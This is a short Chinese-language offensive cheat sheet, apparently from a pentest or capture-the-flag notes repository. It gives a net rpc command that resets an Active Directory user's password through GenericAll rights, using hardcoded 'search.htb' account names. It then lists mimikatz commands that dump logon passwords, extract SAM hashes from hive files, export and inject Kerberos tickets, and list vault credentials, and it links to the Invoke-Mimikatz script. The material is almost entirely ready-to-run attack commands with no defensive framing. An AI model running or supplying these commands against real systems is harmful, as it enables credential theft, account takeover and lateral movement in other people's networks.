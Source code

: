 ## Genericall 权限

```
使用hash的方式修改密码，如果使用明文密码的话，取消最后面的--pw-nt-hash即可

net rpc password "Tristan.Davies" "newP@ssword2023" -U "search.htb"/"BIR-ADFS-GMSA$"  -S "RESEARCH.search.htb" --pw-nt-hash

```





# mimikatz


```
```第一步，提升权限：
privilege::debug
token::elevate

以所有方式获取密码：
sekurlsa::logonpasswords

以SAM获取密码：
lsadump::sam


导出TGT：
sekurlsa::tickets /export
查看TGT：
dir *.kirbi
导入TGT，后面的是TGT文件名字：
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >mimikatz.txt

./mimikatz.exe "lsadump::sam /sam:c:\windows.old\Windows\System32\SAM /system:c:\windows.old\Windows\System32\SYSTEM" "exit" >> sam.txt


./mimikatz.exe "vault::list" "exit" >mimikatz.txt
```

更多使用方法：

```
https://mp.weixin.qq.com/s/IDE2QEzVeuXk6liNeXhxpg
```

powershell版本：

```
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```

